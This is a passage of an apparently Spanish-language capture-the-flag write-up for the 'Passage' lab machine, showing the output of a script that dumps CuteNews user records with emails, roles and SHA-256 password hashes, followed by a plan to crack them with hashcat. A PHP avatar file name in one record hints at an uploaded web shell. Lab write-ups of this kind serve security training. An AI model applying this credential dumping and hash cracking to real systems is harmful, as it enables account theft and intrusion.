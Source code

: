 ```bash
rm -r hashes.txt
```

```json
–» ./extractusers.sh 
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}

a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}

a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}

a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}

a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}

a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}

a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}

a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}

a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}

a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}
```

Vemos usuario, email y pass (password supongo). Tomemos las passwords, que son hashes en formato SHA-256 y guardémoslas en un archivo, para posteriormente apoyarnos de `hashcat` y crackearlos:
